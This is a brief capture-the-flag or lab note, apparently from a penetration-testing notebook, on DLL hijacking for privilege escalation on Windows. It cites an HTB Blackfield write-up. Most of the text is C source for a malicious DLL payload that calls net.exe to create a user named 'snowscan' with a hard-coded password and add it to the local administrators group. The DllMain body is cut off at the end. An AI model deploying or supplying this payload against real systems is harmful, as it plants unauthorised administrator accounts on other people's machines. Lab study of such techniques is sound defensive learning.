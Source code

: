 ![image-20221211181806087](./images/image-20221211181806087.png)







## dll hijack to admin

 https://snowscan.io/htb-writeup-blackfield/#

exploit payload, add user.

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>


int pwn()
{
        WinExec("C:\\Windows\\System32\\net.exe users snowscan Yolo1234! /add", 0);
        WinExec("C:\\Windows\\System32\\net.exe localgroup administrators snowscan /add", 0);
        return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
        DWORD  ul_reason_for_call,
        LPVOID lpReserved
)
{
```